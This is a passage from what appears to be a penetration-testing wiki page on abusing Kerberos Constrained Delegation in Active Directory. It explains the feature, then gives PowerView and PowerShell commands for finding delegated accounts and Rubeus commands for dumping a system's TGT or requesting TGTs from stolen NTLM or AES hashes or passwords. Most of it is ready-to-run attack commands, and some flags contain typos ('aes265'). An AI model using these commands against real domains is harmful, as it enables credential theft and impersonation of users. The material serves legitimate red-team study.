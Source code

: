 # Constrained Delegation

## Requirements

Compromise of the Active Directory Object that is configured for "Trusted to Auth".

## Explanation

**Recommended to read first:** [Unconstrained Delegation](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/steal-or-forge-kerberos-tickets/unconstrained-delegation)

Microsoft introduced Constrained Delegation in Windows Server 2003 to provide a more secure form of delegation compared to the high-risk Unconstrained Delegation.&#x20;

With Constrained Delegation, administrators can specify the services or applications for which a server is allowed to act on behalf of a user, thereby limiting the attack surface. This feature can reduce the risk of an attacker impersonating a user and accessing resources that they are not authorized to access.

## Enumeration

**PowerView**

{% code overflow="wrap" %}
```powershell
# Get computer Constrained Delegation
Get-DomainComputer -TrustedToAuth| Select DnsHostName,UserAccountControl,msds-allowedtodelegateto | FL

# Get user Constrained Delegation
Get-DomainUser -TrustedToAuth
```
{% endcode %}

**PowerShell**

{% code overflow="wrap" %}
```powershell
# Search both users and computers for Constrained Delegation
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
{% endcode %}

## Obtain TGT

{% tabs %}
{% tab title="Rubeus Binary" %}
```bash
# Triage current tickets
Rubeus.exe triage

# Dump the systems TGT
Rubeus.exe dump /luid:[LUID] /service:[krbtgt] /user:[Hostname] /nowrap

# OR
# If you have the NTLM hash for the compromised account
Rubeus.exe asktgt /user:[User] /ntlm:[NTLM Hash] OR /aes265[aes265 Hash]

# If you have the aes265 hash for the compromised account
Rubeus.exe asktgt /user:[User] /aes265[aes265 Hash]

# If you have the plain text password
rubeus.exe asktgt /user:[User] /password:[Password]
```